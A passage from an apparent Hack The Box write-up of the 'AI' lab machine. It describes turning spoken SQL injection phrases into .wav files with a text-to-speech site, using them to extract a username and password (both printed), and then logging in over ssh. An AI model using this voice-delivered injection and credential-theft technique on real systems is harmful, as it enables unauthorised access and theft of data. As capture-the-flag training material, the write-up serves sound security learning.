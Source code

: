 ```console
===============================================================
2020/02/07 15:48:32 Finished
===============================================================
```

As is possible to see above, ```intelligence.php``` was discovered, once that page is accessed, is found a guide on how to write some queries to the AI:

{% include figure image_path="/assets/images/htb/ai/2.1-rce-2.png" %}

After a LOT of try-error (literally, I was never able to go beyond this if it wasn't for the help of [Interep](https://www.hackthebox.eu/profile/10423) of both queries and different TTS (being I'm not a native english speaker and neither I have a microphone), was used in the end [Text 2 Speech](https://www.text2speech.org/):

{% include figure image_path="/assets/images/htb/ai/t2s.png" %}

getting as final SQL Injection the next:

```
User:
Open single quote union select, username from users Comment Database
Password:
Open single quote union select, password from users Comment Database
```

Once it's respective .wav files generate by the TTS mentioned above were uploaded, the following were the results:

{% include figure image_path="/assets/images/htb/ai/command-ok-1.png" %}

{% include figure image_path="/assets/images/htb/ai/command-ok-2.png" %}


Then, was tried to login via ssh with the credentials:

```
user: alexa
passwd: H,Sq9t6}a<)?q93_
```

Getting a success:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb  7 20:27:47 UTC 2020

  System load:  0.14               Processes:           162
  Usage of /:   28.0% of 19.56GB   Users logged in:     1
  Memory usage: 27%                IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```